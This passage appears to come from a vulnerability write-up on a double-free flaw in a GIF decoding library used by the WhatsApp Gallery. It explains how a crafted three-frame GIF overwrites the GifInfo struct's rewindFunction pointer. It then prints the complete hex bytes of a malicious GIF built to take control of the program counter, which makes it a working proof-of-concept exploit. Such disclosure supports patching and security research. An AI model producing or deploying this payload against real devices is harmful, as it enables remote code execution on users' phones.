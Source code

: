 ```
(int) $21 = 0xd379b250
```

In the above snippet, variable $foo was freed twice. As a result, the next two allocations ($20 and $21) return the same address.

Now look at struct GifInfo in gif.h
```c
struct GifInfo {
    void (*destructor)(GifInfo *, JNIEnv *);  <<-- there's a function pointer here
    GifFileType *gifFilePtr;
    GifWord originalWidth, originalHeight;
    uint_fast16_t sampleSize;
    long long lastFrameRemainder;
    long long nextStartTime;
    uint_fast32_t currentIndex;
    GraphicsControlBlock *controlBlock;
    argb *backupPtr;
    long long startPos;
    unsigned char *rasterBits;
    uint_fast32_t rasterSize;
    char *comment;
    uint_fast16_t loopCount;
    uint_fast16_t currentLoop;
    RewindFunc rewindFunction;   <<-- there's another function pointer here
    jfloat speedFactor;
    uint32_t stride;
    jlong sourceLength;
    bool isOpaque;
    void *frameBufferDescriptor;
};
```
We then craft a GIF file with three frames of below sizes:
- sizeof(GifInfo)
- 0
- 0

When the WhatsApp Gallery is opened, the said GIF file triggers the double-free bug on rasterBits buffer with size `sizeof(GifInfo)`. Interestingly, in WhatsApp Gallery, a GIF file is parsed twice. When the said GIF file is parsed again, another GifInfo object is created. Because of the double-free behavior in Android, GifInfo `info` object and `info->rasterBits` will point to the same address. DDGifSlurp() will then decode the first frame to `info->rasterBits` buffer, thus overwriting `info` and its `rewindFunction()`, which is called right at the end of DDGifSlurp() function.

## Controlling PC register
The GIF file that we need to craft is as below:

```
47 49 46 38 39 61 18 00 0A 00 F2 00 00 66 CC CC 
FF FF FF 00 00 00 33 99 66 99 FF CC 00 00 00 00 
00 00 00 00 00 2C 00 00 00 00 08 00 15 00 00 08 
9C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 F0 CE 57 2B 6F EE FF FF 2C 00 00 
00 00 1C 0F 00 00 00 00 2C 00 00 00 00 1C 0F 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 2C 00 00 00 00 
18 00 0A 00 0F 00 01 00 00 3B
```